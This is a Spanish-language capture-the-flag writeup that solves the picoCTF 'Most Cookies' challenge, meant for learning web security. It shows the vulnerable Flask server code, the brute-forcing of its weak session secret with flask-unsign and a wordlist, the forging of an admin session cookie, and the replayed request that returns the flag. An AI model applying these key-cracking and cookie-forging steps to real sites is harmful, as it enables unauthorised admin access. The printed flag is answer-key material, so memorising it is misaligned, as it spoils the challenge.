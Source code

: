 ```yaml
---
title: Most Cookies
date: 2025-07-23 11:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, explotación web, flask, cookies]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```

>Most Cookies
Author: madStacks
Description
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! server.py http://mercury.picoctf.net:65344/
{: .prompt-tip }

Nos ofrece descargar server.py, haciendo un primer análisis
``` python 
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()
```
En el navegador aparece esta cookie de sesión. Procedo con su análisis

>session=eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.aIDITg.D5BnzBwxyZNqDjS6aHvFs8TnHmM
``` shell
pablo☠office Most-Cookies$ echo "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.aIDITg.D5BnzBwxyZNqDjS6aHvFs8TnHmM" | base64 -d
{"very_auth":"blank"}base64: entrada inválida
```

Para hacer fuerza bruta contra estas claves de flask me valgo de este proyecto [https://github.com/Paradoxis/Flask-Unsign](https://github.com/Paradoxis/Flask-Unsign), así que procedo a descargarlo e instalarlo con pip

``` shell
mkdir ~/pentest/flask-unsign
cd ~/pentest/flask-unsign
python -m venv .
source bin/activate
pip install flask-unsign
```

Ahora que lo tenemos instalado podemos comenzar con la fuerza bruta contra la cookie

``` shell
(flask-unsign) pablo☠office flask-unsign$ flask-unsign -u --cookie "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.aIDITg.D5BnzBwxyZNqDjS6aHvFs8TnHmM" -w ~/pentest/wordlist/rockyou.txt --no-literal-eval
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 6630912 attempts
b'fortune'
```
Ok la clave parece "fortune" y ahora que tenemos la clave si analizamos el código del servidor podemos deducir para ver la clave necesitamos ser admin y por lo tanto **'very_auth': 'admin'** debe ser el payload de la cookie, claro que habrá q firmarlo previamente para que el servidor lo acepte.

``` shell
(flask-unsign) pablo☠office flask-unsign$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'fortune'
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aIDZtg.cMcK_FzsfI2_xdHK1gcVbZQg2mU
```

Capturo el request con Zap proxy y altero la cookie 
``` html
GET http://mercury.picoctf.net:65344/display HTTP/1.1
host: mercury.picoctf.net:65344
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Connection: keep-alive
Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aIDZtg.cMcK_FzsfI2_xdHK1gcVbZQg2mU
Upgrade-Insecure-Requests: 1
Priority: u=0, i
content-length: 0
```
Respuesta
``` html
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 1194
Vary: Cookie

<!DOCTYPE html>
<html lang="en">

<head>
    <title>Most Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Reset</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Most Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```
flag: **picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}**

Interesante reto muy parecido a [Java Code Analysis!?!](../picoctf-java-code-analisis!-!) pero esta vez versión Flask. 